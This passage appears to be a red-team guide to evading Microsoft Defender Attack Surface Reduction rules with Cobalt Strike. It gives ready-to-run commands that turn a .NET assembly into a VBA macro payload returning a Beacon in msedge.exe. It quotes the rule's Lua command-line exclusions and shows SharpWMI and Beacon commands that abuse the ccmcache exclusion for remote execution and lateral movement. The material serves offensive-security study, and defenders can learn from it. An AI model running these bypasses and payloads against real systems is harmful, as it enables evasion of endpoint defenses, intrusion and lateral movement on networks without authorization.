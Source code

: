 7. Build the solution in release mode, then use GadgetToJscript to generate a VBA payload from TestAssembly.dll:
```
.\GadgetToJScript\bin\Release\GadgetToJScript.exe -w vba -b -e hex -o C:\Payloads\inject -a .\TestAssembly\bin\Release\TestAssembly.dll
```

8. Copy the content of `C:\Payloads\inject.vba` into a new macro and execute it.  A Beacon should return running in msedge.exe


## Process Creations from PSExec & WMI

This rule behaves in the same fashion as the "block Office applications from creating child processes" rule.  On my extraction, the LUA script can be found in `4138.lua`.  The two monitored applications are `WmiPrvSE.exe` and `PSEXESVC.exe`.

PsExec is not an issue, and is not blocked by this rule and the jump psexec and elevate svc-exe commands will work fine in beacon. 

Although trying to move laterally with WMI you may use remote-exec in beacon or an external tool like SharpWMI will be blocked. This is because these commands always go through via WmiPrvSE. 

The easiest way to bypass this is via the command line exclusions:

```
GetCommandLineExclusions = function()
-- function num : 0_3
local l_4_0 = ".:\\\\windows\\\\ccmcache\\\\.+"
local l_4_1 = ".:\\\\windows\\\\ccm\\\\systemtemp\\\\.+"
local l_4_2 = ".:\\\\windows\\\\ccm\\\\sensorframework\\\\.+"
local l_4_3 = ".:\\\\windows\\\\ccm\\\\signedscripts\\\\.+"
local l_4_4 = "cmd[^\\s]*\\s+/c\\s+\\\"chcp\\s+65001\\s+&\\s+.:\\\\windows\\\\system32\\\\inetsrc\\\\appcmd\\.exe\\s+list[^>]+>\\s+\\\"\\\\\\\\127\\.0\\.0\\.1\\\\.\\$\\\\temp\\\\[^\\\"]+\\\"\\s+2>&1\\\""
local l_4_5 = {}
l_4_5[l_4_0] = 0
l_4_5[l_4_1] = 0
l_4_5[l_4_2] = 0
l_4_5[l_4_3] = 0
l_4_5[l_4_4] = 0
return l_4_5
end
```

The first four entries have wildcards both at the beginning and end. We just have to include :\Windows\ccmache\ appear somewhere in the command and it will run:

```
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\System32\cmd.exe /c dir C:\Windows\ccmcache\ & C:\Windows\notepad.exe"
```

Arbitrary command line arguments can be passed to a Beacon payload so that it doesn't have to be executed via cmd.exe

```
cd \\wkstrn-1\admin$
upload C:\Payloads\smb_x64.exe
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=WKSTN-1 command="C:\Windows\smb_x64.exe --path C:\Windows\ccmcache\cache"
```
